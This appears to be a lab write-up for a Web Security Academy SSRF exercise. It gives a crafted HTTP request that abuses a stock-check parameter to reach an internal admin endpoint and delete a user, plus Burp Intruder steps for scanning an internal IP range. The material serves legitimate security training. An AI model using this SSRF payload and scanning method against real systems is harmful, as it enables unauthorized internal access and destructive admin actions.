 
#### Basic SSRF against another back-end system

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

exploit(Send to Intruder)

```http
POST /product/stock HTTP/1.1
Host: 0a1800d90476ebb3c0ac6c8700700017.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 62

stockApi=http://192.168.0.75:8080/admin/delete?username=carlos
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Intruder.
                    </li>
                    <li>
                        Click "Clear §", change the <code>stockApi</code> parameter to <code>http://192.168.0.1:8080/admin</code> then highlight the final octet of the IP address (the number <code>1</code>), click "Add §".
                    </li>
                    <li>
                        Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
                    </li>
                    <li>
                        Click "Start attack".
                    </li>
                    <li>
                        Click on the "Status" column to sort it by status code ascending. You should see a single entry with a status of 200, showing an admin interface.
                    </li>
                    <li>
                        Click on this request, send it to Burp Repeater, and change the path in the <code>stockApi</code> to: <code>/admin/delete?username=carlos</code>
                    </li>
                </ol>
            </div>
        </div>




#### SSRF with blacklist-based input filter
